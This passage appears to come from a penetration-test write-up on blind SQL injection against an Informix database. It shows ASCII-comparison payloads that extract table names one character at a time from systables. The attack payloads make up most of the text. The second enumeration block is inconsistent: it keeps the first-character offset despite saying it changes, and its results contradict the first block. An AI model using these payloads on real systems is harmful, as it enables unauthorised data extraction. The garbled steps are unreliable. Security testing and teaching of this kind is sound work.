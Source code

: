 We have now established that the number of tabids within the current database is 75.

Next, establishing table names was required. Utilizing the ASCII value function was still an option, so we used similar logic that was used to establish the number of tables. The following payload would determine if the ASCII value of the first letter of the first table name was greater than 64:

```
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 64
```

From this behavior, we can enumerate what the first letter is:

```
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 64
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 96
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 112
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 104
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 100
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 102
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) = 101
#returned some data
```

Based on the above, the first letter of the first table must be an ASCII value of 101, or "e".

Moving onto the next character in the table name, we would replace:

```
tabname from 1 for 1
```

With:

```
tabname from 2 for 1
```

From this point, we can enumerate what the second letter is:

```
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 64
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 96
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 112
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 104
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 108
#returned some data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 110
#returned no data
1=1 AND (SELECT ascii(substring(tabname from 1 for 1)) FROM systables WHERE tabid = 1) > 109
#returned some data
```
